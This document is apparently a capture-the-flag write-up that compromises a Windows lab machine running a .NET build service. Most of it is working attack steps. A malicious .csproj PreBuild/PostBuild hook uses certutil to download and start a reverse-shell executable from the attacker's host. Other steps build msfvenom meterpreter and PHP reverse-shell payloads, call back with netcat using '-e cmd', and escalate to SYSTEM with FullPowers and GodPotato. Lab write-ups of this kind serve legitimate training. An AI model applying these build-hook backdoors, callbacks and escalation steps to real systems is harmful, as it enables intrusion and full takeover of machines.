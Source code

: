 #Enumeration

Nmap scan show open port on 80 which reveals a website. Check nmap-scan.html

# Foothold

The Website offers a service to build .net repos. We can exploit this by using some BuildEvents and getting a shell.

## Creating a Repo(must have a .sln file for .net)

dotnet new sln -o Visual
cd Visual
dotnet new console -o Visual.ConsoleApp --framework net6.0
dotnet sln Visual.sln add Visual.ConsoleApp/Visual.ConsoleApp.csproj

HelloWorld.cs
```

// Hello World! program
namespace HelloWorld
{
    class Hello {         
        static void Main(string[] args)
        {
            System.Console.WriteLine("Hello World!");
        }
    }
}
```

Add this line to Visual.ConsoleApp.csproj and of course use your IP/PORT of the webserver we are setting up next
```
<Target Name="PreBuild" BeforeTargets="PreBuildEvent">
  <Exec Command="certutil -urlcache -f http://IP:PORT/shell.exe %temp%/shell.exe" />
</Target>

<Target Name="PostBuild" AfterTargets="PostBuildEvent">
  <Exec Command="start %temp%/shell.exe" />
</Target>
```

## Creating shell.exe 
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > s.exe
```

## Staring reverse shell
```
msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lport PORT //used at creating shell
set lport IP
run -j
```

## Staring Webserver for shell-download
```
python3 -m http.server PORT
```

## Start Gitea
```
sudo podman pull docker.io/gitea/gitea
mkdir data
sudo podman run --rm -it -v ./data:/data -p 3000:3000 gitea/gitea
```
visit localhost:3000 and do the initial process. Then add a user and upload the repository we have created.

## Getting shell
enter the site to your repo on the website:
http://IP:3000/username/Visual

On the python webserver you can watch how the shell.exe get downloaded and afterwards a session in msfconsole started. Another method is to use a payload which started a connection via powershell/cmd.

# Privilege Escalation
This shell was closed after one command on msfconsole so I used nc.

## Getting another shell
We are allowed to create file in C:\xampp\htdocs so let use this to get shell

### Creating & Upload Payload
msfvenom -p php/reverse_tcp LHOST=IP LPORT=PORT -f raw > phpraw.php

upload it via our first shell:
```
cerutil -urlcache -f http://IP:PORT/phpraw.php phpraw.php
```
### Starting NC listener
```
nc -nlvp PORT 
```

### Trigger Shell
Start the shell by visiting http://10.10.11.234/phpraw.php

## Extend Privileges using FullPowers
I need to do another workaround here by uploading nc64.exe and creating another shell.

Upload FullPowers from this repo: https://github.com/itm4n/FullPowers

Upload nc64.exe available at this repo: https://github.com/int0x33/nc.exe/

### Start nc listener
nc -nlvp PORT

### Execute FullPower to gain another shell with more privileges
```
FullPowers -c "C:\xampp\htdocs\nc64.exe IP PORT -e cmd" -z
```

With the new shell you should have 7 Privileges when you execute whoami /priv instead of 3.

## Getting Root using GodPotato
Download and upload GodPotato-NET4.exe from this url https://github.com/BeichenDream/GodPotato/releases

### Creating shell and upload
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shellroot.exe
```

Upload it to the server.

### Start Listener

start the listener in msfconsole like at the beginning but using another port this time.

set payload windows/x64/meterpreter/reverse_tcp
set lport PORT //used at creating shell one step before


### Start shell using GodPotato
```
GodPotato-NET4.exe -cmd "C:\xampp\htdocs\uploads\shellroot.exe"
```

